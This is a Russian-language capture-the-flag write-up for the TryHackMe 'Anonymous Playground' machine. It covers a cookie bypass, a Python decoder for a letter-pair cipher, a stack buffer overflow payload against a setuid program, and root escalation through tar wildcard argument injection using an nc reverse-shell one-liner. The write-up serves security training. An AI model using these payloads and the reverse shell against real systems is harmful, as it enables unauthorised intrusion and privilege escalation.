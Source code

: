 # Anonymous Playground

:white_check_mark:  [**Python "zA" decode**](#Python_zA_decode)

:white_check_mark:  [**Stack Buffer Overflow**](#Stack_Buffer_Overflow)

:white_check_mark:  [**Tar wildcards(privesc)**](#Tar_wildcards(privesc))

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV anon.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Proving Grounds
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **anon.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/1.png)

Nmap показывает нам директорию, которая содержится в файле robots.txt, перейдем по ней.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/2.png)

Приложение говорит, что у нас нет доступа. Посмотрим cookie данного сайта.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/3.png)

Возможно изменив значение cookie на "granted" мы получим доступ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/4.png)

Мы получаем доступ и перед нами появляется какой-то код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/5.png)

<a name="Python_zA_decode"></a>

В подсказке к машине говорится следующее: "You're going to want to write a Python script for this. 'zA' = 'a' ".  Данный текст был зашифрован следующим образом: берется порядковый номер каждой из двух подряд идущих букв. Их порядковые номера складываются. Затем забираем остатот от деления данного числа на 26(кол-во букв в алфавите). Тоесть:
```
'z' = 26
'A' = 1

'zA' = 26 + 1 = 27

27 % 26 = 1 = 'a'
```

Напишем скрипт, который будет расшифровывать данный текст.
```
def decoding(str_to_dec):
    letters_a_to_z = ""

    for i in range(ord('a'), ord('z') + 1):
        letters_a_to_z += chr(i)

    for i in range(0, len(str_to_dec), 2):
        first_letter = str_to_dec[i]
        second_letter = str_to_dec[i + 1].lower()

        first_letter_to_num = ord(first_letter) - ord('a') + 1
        second_letter_to_num = ord(second_letter) - ord('a') + 1

        letter_decoded = (first_letter_to_num + second_letter_to_num) % 26

        cipher_dec = letters_a_to_z[letter_decoded - 1]

        print(cipher_dec, end="")

decoding("hEzAdCfHzA")
print("")
decoding("hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN")
```

Получаем имя пользователя и пароль. Подключаемся по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/6.png)

Читаем записку. В ней пользователь spooky говорит, что написал программу и просит нас ее сломать.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/7.png)

<a name="Stack_Buffer_Overflow"></a>

Перебросив себе на машину эту программу("hacktheworld"), отправим ее в Ghidra. В коде программы можем заметить следующие интересные функции.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/8.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/9.png)

Если мы сможем перейти к setuid, то получим новые права доступа. Попробуем переполнить буффер этой программы. Будем использовать cyclic для создания полезной нагрузки. Перепробовав различные значения, программа начинает выдавать ошибку после 73 символов.

Cyclic 71 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/10.png)

Cyclic 72 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/11.png)

Cyclic 73 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/12.png)

Найдем адрес функции.
```
info functions
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/13.png)

Наш payload будет выглядеть следующим образом: 72 символа + адрес функции с прямым порядком байтов.

Перейдем к машине и с помощью python будет передавать в программу наш payload.

```
python -c 'print "A"*72+"\x57\x06\x40\x00\x00\x00\x00\x00"'  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/14.png)

Мы получаем то, что нужно, но оболочка прерывается. Это происходит потому, что оболочка выполняется, но не имеет никаких входных данных. Поэтому оболочка в конечном итоге просто завершает работу. Чтобы обойти это, будем использовать команду cat вместе с нашим payload-ом. Получаем оболочку.
```
(python -c 'print "A"*72+"\x58\x06\x40\x00\x00\x00\x00\x00"'; cat)  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/15.png)

<a name="Tar_wildcards(privesc)"></a>

Просмотрев crontab, можно обнаружить следующий фрагмент:
```
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

Дело в том, что tar страает от загрязнения аргументов. Для экплуатации уязвимости можно использовать Wildcards. Отправим следующие команды для эксплуатации уязвимости:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Запускаем слушать на нашей машине и через некоторое время получаем оболочку с root.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/16.png)
